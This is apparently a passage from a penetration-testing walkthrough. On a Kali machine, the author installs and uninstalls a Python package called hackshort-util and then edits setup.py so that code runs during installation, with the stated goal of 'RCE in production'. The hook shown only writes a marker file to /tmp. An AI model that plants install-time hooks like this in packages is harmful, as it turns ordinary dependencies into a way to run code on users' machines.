 Install success. 

Importing and Using hackshort_util Package.
```hlt:1,4,5
kali@kali:~$ python3                                       
Python 3.11.2 [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hackshort_util
>>> print(hackshort_util)
<module 'hackshort_util' from '/home/kali/.local/lib/python3.11/site-packages/hackshort_util/__init__.py'>
```

Module successfully installed. Now let's configure it to give us RCE.

Uninstalling hackshort-util Package
```hlt:1
kali@kali:~/hackshort-util$ pip uninstall hackshort-util                   
Found existing installation: hackshort-util 1.1.4
Uninstalling hackshort-util-1.1.4:
  Would remove:
    /home/kali/.local/lib/python3.11/site-packages/hackshort_util-1.1.4.dist-info/*
    /home/kali/.local/lib/python3.11/site-packages/hackshort_util/*
Proceed (Y/n)? Y
  Successfully uninstalled hackshort-util-1.1.4
```

### Command Execution During Install
Two options to put payload
1. **setup.py**
2. _utils_ submodule (would have to create **utils.py**)

IRL, we'd do both. 
In this demo, we want RCE in production. 

Editing **setup.py** to include custom installer function
```hlt:2-9,18
kali@kali:~/hackshort-util$ cat -n setup.py            
01  from setuptools import setup, find_packages
02  from setuptools.command.install import install
03
04  class Installer(install):
05      def run(self):
06          install.run(self)
07          with open('/tmp/running_during_install', 'w') as f:
08              f.write('This code was executed when the package was installed')
09
10  setup(
11      name='hackshort-util',
12      version='1.1.4',
13      packages=find_packages(),
14      classifiers=[],
15      install_requires=[],
16      tests_require=[],
17      cmdclass={'install': Installer}
18  )
```

